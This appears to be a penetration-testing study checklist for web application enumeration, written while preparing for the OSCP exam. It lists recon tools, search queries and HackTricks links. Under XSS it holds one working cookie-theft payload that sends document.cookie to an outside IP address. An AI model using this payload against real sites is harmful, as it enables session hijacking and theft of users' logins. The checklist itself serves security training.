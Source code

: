 # Enumeration Checklist/Ideas (Not Comprhenehsive)
I built this list over my time of studying for the OSCP/PWK. It is FAR from being a complete list, but I would recommend using this as a starting point, and adding/removing as you see fit.
- Version Enumeration
- Google Searches:
    - github <application>
    - Enumerate for vulnerabilities
        - Google: `<application name> release notes`
        - Google: `<application name> security announcements`
        - Google: `<application name> vulnerabilies`
        - CVE Google Search: `"reported by" + CVE Google search` (if found from security announcements)
        - Enumerate for login information/credentials: `update database password <application>`
- whatweb, webtech
- Wappalyzer
- Review `nmap` Output
- Specialized Scanners?
- Visit website/manual enumeration
    - Source Code Analysis
    - Enumerate for Users, Usernames
    - `/robots.txt`
    - `/sitemap.xml`
    - `/crossdomain.xml`
    - `/clientaccesspolicy.xml`
    - `/.well-known/`
    - `404` error,
    - SSL/TLS scan
- Directory Enumeration
    - enum_dirsearch.sh (raft-medium-dirs, raft-medium-files, dirbuster-medium-sans-raft)
    - Recursive Search (helpful after initial directory enum, manual narrowing down)
    - Subdomain search (gobuster vhost)
- Nikto

- Specialized Scanners
    - WPScan
    - Droopescan
    - Curl Page
- Hacktricks Known Technologies Checklist - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web#web-tech-tricks
- More Hacktricks - https://book.hacktricks.xyz/pentesting/pentesting-web#step-by-step-web-application-discovery
    - Force Errors
    - Upload Files
    - Spidering
- Enumerate for SQLi
- XSS
    - javascript: `document.write('<img src="http://10.10.14.2/?'+document.cookie+'">');`
- Do you have version information?
- Jquery - if jquery exists, look at version to get ballpark idea of age/version of app

# Step 1: ALWAYS LOOK AT THE SOURCE CODE OF THE WEBPAGE!
- https://book.hacktricks.xyz/pentesting/pentesting-web
- https://medium.com/@nyomanpradipta120/local-file-inclusion-vulnerability-cfd9e62d12cb
